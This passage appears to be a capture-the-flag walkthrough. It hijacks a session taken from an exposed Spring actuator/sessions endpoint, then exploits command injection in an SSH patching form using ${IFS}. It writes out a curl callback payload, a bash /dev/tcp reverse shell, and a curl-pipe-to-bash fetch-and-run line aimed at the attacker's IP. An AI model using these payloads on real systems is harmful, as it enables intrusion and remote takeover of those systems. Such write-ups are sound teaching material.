Looking at the actuator/sessions endpoint, we are able to list all the active sessions and their session ids.



We see the session identifier for kanderson , which we can grab and set as a cookie in our browser, using the developer console's Storage tab.
If we use this cookie to access the login panel and replace the `JSESSIONID` value with the one obtained from *kanderson*, it would be possible to gain access as that user.





At the bottom of the page, there is a form that requires a hostname and a username for automatic patching. When we submit the form using the username `test` and the hostname `127.0.0.1`, an error message is returned indicating that the host was not added.





It appears that this feature is attempting to establish an SSH connection. To confirm this, we will send the request from the web interface to our own IP address using the username `kanderson`.





The command run in the backend is therefore likely to be the following:
```bash
$ ssh -i id_rsa username@hostname
```

Since the hostname validation is quite strict, we can attempt to exploit command injection through the username field. We know that this field does not allow whitespace, so to bypass this restriction we can use `${IFS}` as a delimiter. This is a special shell variable that represents the *Internal Field Separator* and, in shells such as Bash and `sh`, it defaults to a space (followed by a tab and a newline).

To test this, we will first start a local server and then try to `curl` it from the target server.
```bash
$ python3 -m http.server 9000
```


We then submit the form using the following payload in the username field to check whether we receive a callback:
```bash
test;curl${IFS}http://10.10.16.63:9000
```



We observe a request to our local server, confirming the command injection.



With this approach, we should be able to achieve remote code execution.  

First, we create a reverse shell script and host it on our web server.


```bash
$ nano index.html

#!/bin/bash
bash -i >& /dev/tcp/10.10.16.63/4444 0>&1
```



The one-liner above creates a Bash script named `rev.sh` in our current working directory. This script will be used to initiate the reverse shell connection to our Netcat listener.

Next, we start our Netcat listener, which will be ready to receive the reverse shell connection once the script is execute
```bash
$ nc -lnvp 4444
```


Let's now edit our payload to fetch our rev.sh script and execute it.
```bash
test;curl${IFS}http://10.10.16.63:4444/rev.sh|bash;
```


After sending the request, a reverse shell running as the `app` user is received by our listener.





To get a more stable shell we can use the script command to create a new PTY with bash.
```bash
$ script /dev/null -c bash

$ ctrl+z

$ stty raw -echo; fg

$ reset xterm

$ export TERM=xterm
```




[Back](README.md)